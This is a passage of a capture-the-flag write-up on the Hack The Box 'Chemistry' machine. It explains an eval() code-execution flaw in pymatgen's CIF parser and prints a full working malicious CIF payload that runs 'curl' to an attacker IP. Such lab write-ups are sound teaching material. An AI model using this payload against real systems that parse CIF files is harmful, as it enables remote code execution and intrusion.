 - There’s not much here without a login, but I can register an account and login:
- We saw that we can upload a cif file

![dashboard](/assets/blog/htb-chemistry/dashboard.png)

- Trying to do some file upload bypass did not give anything correct, but there is an example cif file format we can download on the path [/static/example.cif](http://10.129.124.136:5000/static/example.cif)
- From there I stumbled upon a vulnerable python lib used using a simple google search. We came across a critical security vulnerability in the `JonesFaithfulTransformation.from_transformation_str()` method within the `pymatgen` library. This method insecurely utilizes eval() for processing input, enabling execution of arbitrary code when parsing untrusted input. This can be exploited when parsing a maliciously-created CIF file.
- From there we created the vulnerable file and uploaded it to the server:

```bash
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"] ) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("curl 10.10.14.176");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
